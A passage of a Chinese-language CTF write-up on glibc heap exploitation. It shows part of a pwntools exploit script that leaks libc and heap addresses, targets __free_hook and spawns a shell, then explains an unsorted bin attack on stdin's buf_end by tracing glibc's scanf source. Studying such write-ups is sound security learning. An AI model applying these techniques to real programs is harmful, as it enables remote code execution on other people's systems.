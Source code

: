 ```
    unsorted_addr, libc_addr = leak_libc()
    system_addr = libc_addr + libc.symbols['system']
    io_addr = unsorted_addr + 0x9a8
    free_hook_addr = libc_addr + libc.symbols['__free_hook']
    heap_addr = leak_heap()
    log.success("unsorted_addr: %s"%(hex(unsorted_addr)))
    log.success("system_addr: %s"%(hex(system_addr)))
    log.success("free_hook_addr: %s"%(hex(free_hook_addr)))
    log.success("heap_addr: %s"%(hex(heap_addr)))
    log.success("io_addr: %s"%(hex(io_addr)))
    raw_input()
    houseoforange(heap_addr)
    p.interactive()
```



**4. 正解思路**

****

上面的**houseoforange**其实已经接近正解了，但是由于**libc**的原因所以没法实现。 正解思路是利用**unsorted bin attck**来覆盖**stdin**的**buf_end**，由于**unsorted bin**的位置是在**main_arena**中，所以在**scanf**中调用**ead (fp-&gt;_fileno, buf, size))**来将数据先读入缓冲区这里会使得**size=unsorted bin-buf_base**，于是可以篡改**stdin**到**unsorted bin**中的所有数据，也包括**malloc_hook**的指向，最终实现**getshell**，下面我们从源码层面分析一下： 首先跟踪一下**scanf**的源码，看一下如何走到**read**函数。 在**_IO_vfscanf_internal**先调用了一下**inchar**

```
618	      
619	      fc = *f++;
620	      if (skip_space || (fc != L_('[') &amp;&amp; fc != L_('c')
621	                         &amp;&amp; fc != L_('C') &amp;&amp; fc != L_('n')))
622	        `{`
623	          
624	          int save_errno = errno;
625	          __set_errno (0);
626	          do
627	            
631	            if (__builtin_expect ((c == EOF || inchar () == EOF) // 读入字符
632	                                  &amp;&amp; errno == EINTR, 0))
633	              input_error ();
634	          while (ISSPACE (c));
635	          __set_errno (save_errno);
636	          ungetc (c, s);
637	          skip_space = 0;
638	        `}`
```

看一下**inchar**的定义，发现这里调用了**_IO_getc_unlocked**，而**_IO_getc_unlocked**调用了**__uflow**

```
117	# define inchar()        (c == EOF ? ((errno = inchar_errno), EOF)              
118	                         : ((c = _IO_getc_unlocked (s)),                      
119	                            (void) (c != EOF                                      
120	                                    ? ++read_in                                      
121	                                    : (size_t) (inchar_errno = errno)), c))

400	#define _IO_getc_unlocked(_fp) 
401	       (_IO_BE ((_fp)-&gt;_IO_read_ptr &gt;= (_fp)-&gt;_IO_read_end, 0) 
402	        ? __uflow (_fp) : *(unsigned char *) (_fp)-&gt;_IO_read_ptr++)
```
